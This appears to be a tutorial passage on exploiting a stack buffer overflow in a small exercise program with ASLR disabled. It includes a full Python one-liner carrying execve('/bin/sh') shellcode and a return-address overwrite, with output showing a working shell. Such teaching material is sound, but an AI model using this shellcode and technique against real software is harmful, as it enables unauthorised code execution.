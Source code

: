 The program nicely prints us the address of the `name` buffer.
Since Address Space Layout Randomization (ASLR) randomizes the position of the
stack in memory, the address is different in each execution:
```
$ ./overflow3 
name is located at 0x7fff55c5d640
Please enter your name: Hello !
$ ./overflow3
name is located at 0x7ffdcfc67ea0
Please enter your name: Hello !
$ ./overflow3
name is located at 0x7ffcc2501fb0
Please enter your name: Hello !
```
For the purpose of this exercise, we disable ASLR, so that the address is
always the same:
```
$ setarch `uname -m` -R ./overflow3
name is located at 0x7fffffffd770
Please enter your name: Hello !
$ setarch `uname -m` -R ./overflow3
name is located at 0x7fffffffd770
Please enter your name: Hello !
$ setarch `uname -m` -R ./overflow3
name is located at 0x7fffffffd770
Please enter your name: Hello !
```


Using this address, we craft our input as follows:
First we fill the buffer with `B`s, then we overwrite the return address with (in this case) `0x7fffffffd770 + 0x30`, and finally we write the shellcode.
Here `0x30` is the offset of the shellcode in the buffer.
```
python -c "import os, struct; os.write(1, b'B'*0x28 + struct.pack('<Q', 0x7fffffffd770 + 0x30) + b'\x48\x31\xC0\x50\x48\x89\xE6\x48\x89\xE2\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x48\x89\xE7\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05')"
```

When we feed this into `overflow3`, nothing visible happens:
```
$ python -c "import os, struct; os.write(1, b'B'*0x28 + struct.pack('<Q', 0x7fffffffd770 + 0x30) + b'\x48\x31\xC0\x50\x48\x89\xE6\x48\x89\xE2\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x48\x89\xE7\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05')" | setarch $(uname -m) -R ./overflow3 
name is located at 0x7fffffffd770
Please enter your name: Hello BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB ×ÿÿÿ!
```
This is because a shell is spawned and immediately closed because the input stream is already closed.
To prevent this, we can use a little trick and run the exploit as follows and can execute arbitrary shell commands:
```
(python -c "import os, struct; os.write(1, b'B'*0x28 + struct.pack('<Q', 0x7fffffffd770 + 0x30) + b'\x48\x31\xC0\x50\x48\x89\xE6\x48\x89\xE2\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x48\x89\xE7\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05')"; cat) | setarch $(uname -m) -R ./overflow3
echo "Success!" # <- this and the following commands are executed by the newly spawned shell
Success!
whoami
lennart
```

<details><summary>Another example of a shellcode</summary></details>





